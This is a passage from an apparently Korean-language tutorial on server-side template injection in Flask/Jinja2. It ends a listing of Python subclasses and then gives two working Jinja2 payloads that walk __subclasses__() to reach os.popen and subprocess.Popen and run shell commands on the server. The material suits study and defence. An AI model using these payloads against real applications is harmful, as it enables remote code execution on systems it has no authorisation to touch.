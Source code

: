 <class 'werkzeug.routing.MapAdapter'>, <class 'flask.signals.Namespace'>, <class 'flask.signals._FakeSignal'>, <class 'flask.helpers.locked_cached_property'>, <class 'flask.helpers._PackageBoundObject'>, <class 'flask.cli.DispatchingApp'>, <class 'flask.cli.ScriptInfo'>, <class 'flask.config.ConfigAttribute'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'flask.ctx.AppContext'>, <class 'flask.ctx.RequestContext'>, <class 'flask.json.tag.JSONTag'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'werkzeug.wrappers.json._JSONModule'>, <class 'werkzeug.wrappers.json.JSONMixin'>, <class 'flask.blueprints.BlueprintSetupState'>, <class 'jinja2._compat.temporary_class'>, <class 'jinja2.ext.Extension'>, <class 'jinja2.ext._CommentFinder'>]
    ```

다양한 클래스들을 확인할 수 있으며, 이제 원하는 클래스를 가져와 사용할 수 있습니다.

아래 두 가지 예시는 `codecs.IncrementalDecoder` 클래스와 `subprocess.Popen` 클래스를 사용하여 명령어를 실행하는 예시입니다.

```python
# 109 : <class 'codecs.IncrementalDecoder'>
{% raw %}{{"".__class__.__base__.__subclasses__()[109].__init__.__globals__['sys'].modules['os'].popen('ls').read()}}{% endraw %}
```

![/assets/2021-05-01/SSTI_8.png](/assets/2021-05-01/SSTI_8.png)

```python
# 273 : <class 'subprocess.Popen'>
{% raw %}{{"".__class__.__base__.__subclasses__()[273]('ls',shell=True,stdout=-1).communicate()[0].strip()}}{% endraw %}
```
